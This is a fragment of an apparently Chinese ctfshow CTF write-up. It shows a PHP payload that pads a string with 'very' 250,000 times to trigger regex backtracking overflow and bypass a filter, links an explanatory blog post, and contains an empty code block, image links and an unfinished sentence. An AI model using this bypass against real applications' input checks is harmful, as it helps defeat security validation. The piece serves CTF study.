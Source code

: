 ```php

```

正则表达式溢出 https://www.laruence.com/2010/06/08/1579.html 

payload:

```
#payload:
<?php
echo str_repeat('very', '250000').'36Dctfshow';
```

不宜过多，过多会

![image-20250124131836252](assets/image-20250124131836252.png)

#### web132

![image-20250124132332538](assets/image-20250124132332538.png)
